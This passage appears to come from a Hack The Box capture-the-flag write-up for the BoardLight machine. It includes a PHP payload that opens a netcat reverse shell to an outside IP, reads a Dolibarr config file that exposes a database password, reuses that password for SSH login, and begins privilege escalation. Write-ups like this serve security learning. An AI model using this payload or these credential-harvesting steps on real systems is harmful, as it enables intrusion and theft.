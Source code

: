 To get a reverse shell we can use the bash one had some errors.
```
<?PHP echo system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc
10.10.16.11 9001 >/tmp/f");?>
```

![](../assets/img/HTB/Machines/boardlight/BoardLight_revsshell.png)

From this we do get shell on our nc listener 
The shell drops us on the website directory and reading the files we get one interesting to us which is the `/conf.php` 

```sh
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat
/var/www/html/crm.board.htb/htdocs/conf/conf.php
[...SNIP...]
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
[...SNIP...]
```

The `/etc/passwds` file shows the users we can log in 
```sh
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash

```

ssh creds : 
- username : `larissa`
- password : `serverfun2$2023!!`

# Privilege Escalation
We do get a shell as `larissa`
```sh
ssh larissa@board.htb

larissa@boardlight:~$ whoami
larissa
larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
larissa@boardlight:~$ 

```
Now we start our priv esc
- `sudo -l` show we can't run any commands with root priv without a password.
